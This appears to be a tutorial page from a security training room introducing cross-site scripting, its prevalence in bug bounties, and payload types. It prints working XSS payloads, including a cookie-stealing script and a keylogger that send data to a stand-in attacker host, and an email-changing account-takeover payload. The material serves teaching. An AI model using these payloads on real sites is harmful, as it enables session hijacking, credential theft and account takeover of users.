 Cross-Site Scripting, better known as XSS in the cybersecurity community, is classified as an injection attack where malicious JavaScript gets injected into a web application with the intention of being executed by other users. In this room, you'll learn about the different XSS types, how to create XSS payloads, how to modify your payloads to evade filters, and then end with a practical lab where you can try out your new skills.

  

Cross-site scripting vulnerabilities are extremely common. Below are a few reports of XSS found in massive applications; you can get paid very well for finding and reporting these vulnerabilities.  

-   [XSS found in Shopify](https://hackerone.com/reports/415484)
-   [$7,500 for XSS found in Steam chat](https://hackerone.com/reports/409850)
-   [$2,500 for XSS in HackerOne](https://hackerone.com/reports/449351)
-   [XSS found in Infogram](https://hackerone.com/reports/283825)

## XSS payloads

**What is a payload?**

In XSS, the payload is the JavaScript code we wish to be executed on the targets computer. There are two parts to the payload, the intention and the modification.

  

The intention is what you wish the JavaScript to actually do (which we'll cover with some examples below), and the modification is the changes to the code we need to make it execute as every scenario is different (more on this in the perfecting your payload task).

  

Here are some examples of XSS intentions.

  

**Proof Of Concept:**

This is the simplest of payloads where all you want to do is demonstrate that you can achieve XSS on a website. This is often done by causing an alert box to pop up on the page with a string of text, for example:

  

`<script>alert('XSS');</script>`

  

**Session Stealing:**

Details of a user's session, such as login tokens, are often kept in cookies on the targets machine. The below JavaScript takes the target's cookie, base64 encodes the cookie to ensure successful transmission and then posts it to a website under the hacker's control to be logged. Once the hacker has these cookies, they can take over the target's session and be logged as that user.

  

`<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>`  

  

**Key Logger:**

The below code acts as a key logger. This means anything you type on the webpage will be forwarded to a website under the hacker's control. This could be very damaging if the website the payload was installed on accepted user logins or credit card details.

  

`<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>`

  

**Business Logic:**

This payload is a lot more specific than the above examples. This would be about calling a particular network resource or a JavaScript function. For example, imagine a JavaScript function for changing the user's email address called `user.changeEmail()`. Your payload could look like this:

  

`<script>user.changeEmail('attacker@hacker.thm');</script>`

  

Now that the email address for the account has changed, the attacker may perform a reset password attack.
signer ici